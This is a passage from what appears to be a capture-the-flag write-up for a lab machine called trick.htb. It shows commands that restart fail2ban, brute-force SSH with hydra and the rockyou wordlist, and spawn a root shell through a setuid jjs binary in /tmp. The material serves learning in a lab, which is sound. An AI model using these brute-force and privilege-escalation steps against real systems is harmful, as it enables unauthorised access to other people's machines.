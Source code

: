 ```sh
sudo /etc/init.d/fail2ban restart
```

We try to bruteforce ssh from our machine:

```sh
hydra -l john.doe -P /usr/share/wordlists/rockyou.txt trick.htb ssh -v -I
```

And finally, when jjs file appears in tmp, we obtain root shell:

```sh
/tmp/jjs -p
jjs-5.0# whoami
root
```
